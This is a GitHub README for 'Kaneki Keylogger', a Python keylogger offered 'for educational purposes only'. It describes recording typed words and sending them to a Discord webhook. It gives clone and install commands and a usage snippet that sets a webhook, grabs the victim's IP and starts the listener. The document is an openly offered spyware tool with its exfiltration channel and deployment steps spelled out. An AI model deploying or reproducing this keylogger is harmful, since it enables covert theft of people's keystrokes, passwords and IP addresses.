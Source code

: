 <p align='center'>
  <b>Follow me here:</b><br>
  <a href="https://discord.gg/gzEvEC4wXh">Discord</a> |
  <a href="https://www.youtube.com/channel/UCdIuioH8MzwMD88XGkliupA">YouTube</a> |
  <a href="https://github.com/KanekiX2">Github</a>
</p>

--- 

**FR:** A but educatif seulement.  
**EN:** For educational purposes only.  

![](https://home.sophos.com/en-us/medialibrary/Microsites/Home/SecurityCenter/what-is-a-keylogger.jpg)
# Keylogger  
**FR** : Kaneki Keylogger est un simple key logger écrit en python qui envoie les mots à chaque touche espace où entrer presser, Proposer à but éducatif.  
**EN** : Kaneki Keylogger is a simple keylogger written in python that sends the words to each key space to enter press, Suggest for educational purpose.  


## 💻 Features
- Send the words type to a discord webhook
- Send the words at each space to avoid a ratelimit

## 🛠 Insallation & Usage
### Installation
```bash
git clone https://github.com/KanekiX2/KeyLogger
cd KeyLogger
pip install -r requirements.txt
```
### Usage
```py
from Keylogger import Inject

Injector = Inject(hook="YOUR WEBHOOK LINK")
Injector.get_ip()
Injector.run()
Injector.listener_s()
```


## 📷 Demo
![](https://cdn.discordapp.com/attachments/809886609717329920/835762012650209300/unknown.png)

##  📝 Contact
Mail : _kaneki_pro@protonmail.com_ <br>
Discord : `Kaneki#8888`


## 📚 Contributions
All suggestions are welcome.

### 📜 License
Keylogger is under licensed MIT [MIT License](https://github.com/KanekiX2/KeyLogger/blob/master/LICENSE).

[![forthebadge made-with-python](http://ForTheBadge.com/images/badges/made-with-python.svg)](https://www.python.org/)
[![GPLv3 license](https://img.shields.io/badge/License-GPLv3-blue.svg)](http://perso.crans.org/besson/LICENSE.html)
[![Open Source Love svg1](https://badges.frapsoft.com/os/v1/open-source.svg?v=103)](https://github.com/ellerbrock/open-source-badges/)
